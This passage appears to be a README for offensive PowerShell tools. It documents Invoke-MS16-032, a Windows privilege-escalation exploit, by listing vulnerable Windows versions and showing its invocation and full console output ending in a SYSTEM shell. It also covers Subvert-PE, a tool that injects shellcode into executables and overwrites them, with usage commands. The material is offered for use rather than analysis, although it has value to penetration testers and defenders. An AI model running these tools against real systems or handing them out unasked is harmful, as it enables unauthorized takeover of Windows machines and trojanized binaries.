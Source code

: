 ### Invoke-MS16-032

PowerShell implementation of MS16-032. The exploit targets all vulnerable operating systems that support PowerShell v2+. Credit for the discovery of the bug and the logic to exploit it go to James Forshaw (@tiraniddo).
    
Targets:

* Win7-Win10 & 2k8-2k12 <== 32/64 bit!
* Tested on x32 Win7, x64 Win8, x64 2k12R2

==> Not tested on Vista with PowerShell v1, let me know what happens if you are able to check this!

```
Sit back and watch the pwn!
C:\PS> Invoke-MS16-032
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 956

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 964
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

```

### Subvert-PE

Inject shellcode into a PE image while retaining the PE functionality.

For additional information, please refer to:

* FuzzySecurity: [Powershell PE Injection, this is not the Calc you are looking for!](http://www.fuzzysecurity.com/tutorials/20.html)

```
Analyse the PE header and hexdump the region of memory where shellcode would be injected.
C:\PS> Subvert-PE -Path C:\Path\To\PE.exe

Same as above but continue to inject shellcode and overwrite the binary.
C:\PS> Subvert-PE -Path C:\Path\To\PE.exe -Write
```
